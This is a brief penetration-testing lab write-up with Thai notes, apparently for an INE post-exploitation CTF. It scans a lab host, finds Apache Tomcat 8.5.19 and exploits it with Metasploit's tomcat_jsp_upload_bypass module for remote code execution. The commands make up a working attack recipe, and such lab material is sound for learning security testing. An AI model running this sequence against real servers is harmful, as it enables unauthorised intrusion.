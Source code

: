 Host & Network Penetration Testing: Post-Exploitation CTF 1
`nmap --top-ports 65536 demo.ine.local -sV`
8080/tcp  open  http   Apache Tomcat 8.5.19

พยายามสนใจอันที่มีเลข Version

`searchsploit apache tomcat`
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                                                  | jsp/webapps/42966.py

focus remote code execution เพราะเป็นช่องโหว่ที่รุนแรง

`msfconsole -q`
`search tomcat jsp upload`
 exploit/multi/http/tomcat_jsp_upload_bypass

 ` use exploit/multi/http/tomcat_jsp_upload_bypass `
 `set RHOSTS demo.ine.local`
 `exploit`